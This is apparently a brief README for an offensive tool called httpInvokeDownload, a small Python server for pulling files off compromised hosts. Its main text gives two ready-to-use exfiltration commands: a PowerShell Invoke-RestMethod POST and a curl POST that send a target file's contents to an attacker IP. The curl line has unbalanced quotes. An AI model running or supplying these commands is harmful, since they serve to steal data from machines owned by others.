 # httpInvokeDownload
Small Python Server used to download files from a compromised host.

Run this server, then on your compromised windows host, run `Invoke-RestMethod -URI http://*attacker_ip*/*vercode*/*filename* -Method Post -InFile ”*target_file*”`. If you've compromised a Linux host, run `curl -X post -d "$(cat *target_file*) http://*attacker_ip*/*vercode*/*filename*.`
